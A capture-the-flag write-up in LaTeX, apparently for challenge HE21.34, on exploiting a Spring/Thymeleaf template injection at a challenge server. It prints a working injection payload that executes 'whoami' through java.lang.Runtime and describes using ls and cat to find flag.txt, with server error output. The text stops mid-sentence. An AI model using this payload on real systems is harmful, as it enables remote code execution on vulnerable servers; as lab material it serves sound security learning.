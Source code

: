 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
Find the flag file!

http://46.101.107.117:2111

Note: The service is restarted every hour at x:00.
\subsection{Show Hint}
The 🐟is just a trap 😼

A hint is hiding in one of the poems.

\hypertarget{he21.34-solution}{%
\subsection{HE21.34 Solution}\label{he21.34-solution}}

\noindent The hint leads us to check the poems for differences to the
originals, and -- lo and behold -- we find that the spring poem has a
change: trees has been changed to ``Thymeleafs''.  We probably have to
exploit a spring/Thymeleaf vulnerability.  Time to research the
issues.

Some searching, we find \url{https://www.fatalerrors.org/a/sprboot-thymeleaf-template-injection-for-java-security-development.html} that explains how to inject code into the template engine.  The we need to find a parameter that can be injected, so first check parameter \verb+season+.  When we set it to \verb+xxx+ we get an error message of
\begin{verbatim}
{
    "timestamp": "2021-04-25T14:59:58.208+0000",
    "status": 500,
    "error": "Internal Server Error",
    "message": "Error resolving template [page-xxx], template might not exist or might not be accessible by any of the configured Template Resolvers",
    "path": "/season"
}
\end{verbatim}

Changing the parameter to execute \verb+whoami+ using \verb+_$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22whoami%22).getInputStream()).next()%7d__::,x HTTP/1.1+ gives
\begin{verbatim}
{
    "timestamp": "2021-04-25T15:01:02.026+0000",
    "status": 500,
    "error": "Internal Server Error",
    "message": "Error resolving template [page-seasons], template might not exist or might not be accessible by any of the configured Template Resolvers",
    "path": "/season"
}
\end{verbatim}

The output of the command is \verb+seasons+; we are running as user \verb+seasons+.  Now it is a matter of finding the flag, using \verb+ls+.  The error message only displays the first entry, so it is a bit of a pain, but finally we get an error message that themplate \verb+[page-flag.txt]+ is not known.  Use \verb+cat flag.txt+ to show the contents, unfortunately what we get is
\end{document}
